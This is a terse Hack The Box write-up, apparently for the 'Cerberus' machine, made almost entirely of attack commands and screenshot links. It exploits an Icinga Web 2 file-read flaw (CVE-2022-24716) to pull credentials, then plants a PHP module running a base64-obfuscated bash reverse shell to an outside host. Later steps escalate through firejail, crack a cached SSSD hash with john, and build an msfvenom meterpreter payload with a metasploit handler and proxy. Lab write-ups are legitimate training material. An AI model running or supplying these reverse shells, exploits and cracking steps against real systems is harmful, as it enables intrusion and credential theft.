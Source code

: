 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.205
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8c945ce1-850e-47d9-b545-95e5d5be3b31)


```
nano /etc/hosts
http://icinga.cerberus.local:8080/icingaweb2/authentication/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2e53b3ba-9d4e-4e19-94c4-3ad78b2a2c15)

![image](https://github.com/regarmulia/HTB/assets/33616880/330d7aaa-bfc3-4e35-b234-af77244c7bfb)


```
https://github.com/doosec101/CVE-2022-24716
python3 exploit.py -h
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/resources.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f53f8aae-4c25-4a22-8b45-a2deae71adcd)

![image](https://github.com/regarmulia/HTB/assets/33616880/c74c6800-1267-4351-b163-d5069f20811c)


```
OR ./lfi.py
username = "matthew"
password = "IcingaWebPassword2023"
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9e630069-3f72-4fb8-bb30-1e3cba6b0812)


```
http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3587318-f571-491e-85bd-24cafc9f0401)


```
Login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d98c50cf-6cd1-4f19-955e-9eaf5ca00636)


```
openssl genrsa -out private-key.pem 1024
Configuration – Application: Create a New Resource
../../../../../../../../../../../../dev/shm/test.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7af4a30b-6f7d-4c21-a2e3-1a645d0f4ed9)

![image](https://github.com/regarmulia/HTB/assets/33616880/974644ba-82e3-4093-afd2-ad697a2418e6)


```
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/test.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6a42bef0-0852-4ac7-80ef-dd5f55e849f4)


```
echo "sh -i >& /dev/tcp/10.10.14.2/10001 0>&1" | base64 -w 0
../../../../../dev/shm/training/configuration.php
Module path: /dev/shm/
Triger: Click Access Control
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/training/configuration.php

<?php
{
         system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi8xMDAwMSAwPiYxCg==|base64 -d|bash");
}
?>

-----BEGIN PRIVATE KEY-----
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c09ce7c0-7fad-456d-9308-f70ce39597ae)

![image](https://github.com/regarmulia/HTB/assets/33616880/b1a9851d-72eb-4d0b-ad35-ec011a501987)

![image](https://github.com/regarmulia/HTB/assets/33616880/4fca906c-02ec-48c1-b086-916eae7c050f)

![image](https://github.com/regarmulia/HTB/assets/33616880/d5eac0cc-b163-43b3-98f2-6b27eeaf3c6d)


```
python3 -c 'import pty; pty.spawn("/bin/bash")’
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/688e17cd-f90a-42c1-8c69-a402978553b9)


```
firejail --version
```
![image](https://github.com/regarmulia/HTB/assets/33616880/eab00318-12ec-4adb-af59-9a1bbde88edd)


```
https://www.openwall.com/lists/oss-security/2022/06/08/10/1
./firejoin.py
firejail --join=3089
su -
```
![image](https://github.com/regarmulia/HTB/assets/33616880/89365045-1e44-41f9-bc9c-e1c4d9001491)

![image](https://github.com/regarmulia/HTB/assets/33616880/ef258d83-9c59-49a2-946d-77ab18f30bc8)


```
ifconfig
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7a8b416e-d9a2-4c83-b1f9-be1e52029a69)


```
ps aux | grep root
cd /var/lib/sss/db
strings cache_cerberus.local.ldb | sort -u | head
```
![image](https://github.com/regarmulia/HTB/assets/33616880/38531902-3ecb-4616-9d02-a58cf4d46ffb)

![image](https://github.com/regarmulia/HTB/assets/33616880/179029c1-fa5c-4a47-a931-d3e8ab92333a)


```
john hash -w=/usr/share/wordlists/rockyou.txt
147258369
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9cddadc3-aca2-4127-b19f-3619563d7c67)


```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.14.2 lport=10002 -f elf -o shell
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d52758b-5933-43c3-bc7b-1478c3e2e3c0)


```
use exploit/multi/handler
run -j
use auxiliary/server/socks_proxy
run -j
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ec61ef7d-8063-406f-8719-584f42e6477c)

![image](https://github.com/regarmulia/HTB/assets/33616880/e1e3def5-1d53-4c17-a068-22a19e6e0422)


